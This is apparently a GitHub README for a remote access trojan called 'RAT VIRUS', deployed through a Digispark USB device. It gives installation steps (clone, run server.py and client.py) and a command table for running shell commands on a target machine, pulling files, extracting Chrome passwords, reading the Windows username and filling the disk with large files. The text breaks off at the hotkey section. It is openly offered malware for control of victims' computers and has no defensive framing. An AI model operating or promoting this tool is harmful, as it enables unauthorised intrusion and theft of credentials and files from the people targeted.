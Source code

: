 # RAT VIRUS

```
   _____  ____  _____  ______ _   _    _____ _    _          __  __ _      ____  _    _ 
  / ____|/ __ \|  __ \|  ____| \ | |  / ____| |  | |   /\   |  \/  | |    / __ \| |  | |
 | (___ | |  | | |__) | |__  |  \| | | (___ | |__| |  /  \  | \  / | |   | |  | | |  | |
  \___ \| |  | |  _  /|  __| | . ` |  \___ \|  __  | / /\ \ | |\/| | |   | |  | | |  | |
  ____) | |__| | | \ \| |____| |\  |  ____) | |  | |/ ____ \| |  | | |___| |__| | |__| |
 |_____/ \____/|_|  \_\______|_| \_| |_____/|_|  |_/_/    \_\_|  |_|______\____/ \____/ 
```

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.

![alt text](https://github.com/soren2007/rat-virus/blob/master/image.jpg?raw=true)

## INSTALLATION

### 1. Clone the repository

```bash
git clone https://github.com/Soren2007/rat-virus.git
```

### 2. Read 'DIGISPARK-RAT-INSTALLER' repository

[DIGISPARK-RAT-INSTALLER.git](https://github.com/Soren2007/digispark-rat-installer) 

### 3. Run 'server.py' file

```bash
python server.py
```

### 4. Run 'client.py' file ro connect digispark usb


```bash
python client.py
```

## COMMANDS

|    Row     |   Commad    | Description | Example |
|    :---:   |    :---:    |    :---:    |    :---:    |
|      1     |     cmd!command     | Run cmd commad | cmd!ipconfig |
|      2     |     gf!file_path     | Download and save the file | gf!C:\Users\uname\Desktop\file.pdf |
|      3     |     hk!keyname1+keyname2     | Press key or hotkey | hk!win+a |
|      4     |     cpe!get     | Get chrome passwords | cpe!get |
|      5     |     gwun!get     | Get windows username | gwun!get |
|      6     |     lfv!file_path|size_mg     | Create large file  | lfv!C:\Users|10000 |
|      7     |     sf!file_path     | Send file  | sf!C:\Users\uname\Desktop\file.pdf |


### 1. CMD
Using the cmd!command command, you can run all cmd commands on the target system and get their output.

Example:
```
cmd!ipconfig
```

![](https://github.com/Soren2007/rat-virus/blob/master/gifs/cmd_command.gif)


### 2. GET FILE
Using the gf!file_path command, you can download a file from the target system and save it to the specified path.

Example:
```
gf!C:\Users\uname\Desktop\file.pdf
```

### 3. HOTKEY
